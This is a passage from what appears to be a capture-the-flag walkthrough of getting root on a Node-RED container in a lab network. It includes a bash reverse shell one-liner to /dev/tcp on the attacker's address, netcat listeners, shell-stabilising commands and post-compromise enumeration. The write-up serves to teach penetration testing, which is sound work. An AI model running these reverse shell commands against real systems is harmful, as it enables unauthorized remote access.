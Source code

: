 Now Deploy the flow.

![deploy](images/node-red-deply-flow.png)

```bash
$ rlwrap -cAr nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.94] 55446
id
uid=0(root) gid=0(root) groups=0(root)
```

## Node-RED container - 172.18.0.2 172.19.0.3

Lets try to get a more consistent shell.

```bash
$ rlwrap -cAr nc -nlvp 9002
listening on [any] 9002 ...
```

```bash
[object Object]bash -c "bash -i > /dev/tcp/10.10.14.8/9002 0>&1" &
```

```bash
$ rlwrap -cAr nc -nlvp 9002
listening on [any] 9002 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.94] 50056
id
uid=0(root) gid=0(root) groups=0(root)
```

Now stabilize the shell.

```bash
script /dev/null -c bash
(ctrl+z)
stty raw -echo; fg
reset xterm (press Enter)
stty rows 39 columns 155 (adapt this to your stty size)
export TERM=xterm
export SHELL=bash
```

```bash
root@nodered:/node-red# uname -a
uname -a
Linux nodered 4.15.0-213-generic #224-Ubuntu SMP Mon Jun 19 13:30:12 UTC 2023 x86_64 GNU/Linux
```

```bash
root@nodered:/node-red# cat /etc/os-release
cat /etc/os-release
PRETTY_NAME="Debian GNU/Linux 8 (jessie)"
```
